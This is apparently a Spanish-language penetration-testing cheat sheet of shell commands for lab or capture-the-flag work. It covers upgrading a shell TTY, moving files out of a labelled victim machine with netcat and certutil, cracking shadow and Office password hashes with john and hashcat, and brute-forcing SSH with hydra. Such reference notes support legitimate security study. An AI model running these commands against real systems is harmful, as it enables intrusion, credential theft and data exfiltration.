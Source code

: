  
### Tratamiento de la TTY

```python
	script /dev/null -c bash # Lanza pseudoconsola

	[ctrl+z] # Suspende la shell actual

	stty raw -echo

	fg # Recupera la shell suspendida

	reset "xterm" # Reinicia la configuración de la terminal

	xterm # Especifica el tipo de terminal

	export TERM=xterm # Asigna xterm a la variable TERM

	export SHELL=bash # Asigna bash a la variable SHELL

	stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

	Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
	python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

	tar -xf archive.tar.gz

#.gz

	gzip -d file.gz

#.zip

	unzip file.zip
```
### Comparación de archivos

```python
	diff -c scan-a.txt scan-b.txt

	comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

	python3 -m http.server

	python -m SimpleHTTPServer

#Cliente

	certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

	wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor

	python3 -m pyftpdlib

#Cliente

	ftp <SERVER_IP>
```

### Netcat
```python

#Servidor

	nc 10.10.14.2 4242 < file.tgz

#Cliente

	nc -lvnp 4242 > file.tgz

	maquina atacante
	nc -lvnp "Ports" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	maquina victima
	nc "IP" "Ports" < "archivo"

```

### Sniffing

```python
	tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hash

	hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
	unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
	office2john.py <Ruta_Documento> > <Archivo_hash>

	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
	steghide --extract -sf archivo.png/jpg
```

### Búsqueda de exploits

```python
	searchsploit <SOFTWARE>
	
	searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit
	
	searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
find / -iname nombre_archivo
```
### Fuerxa bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```
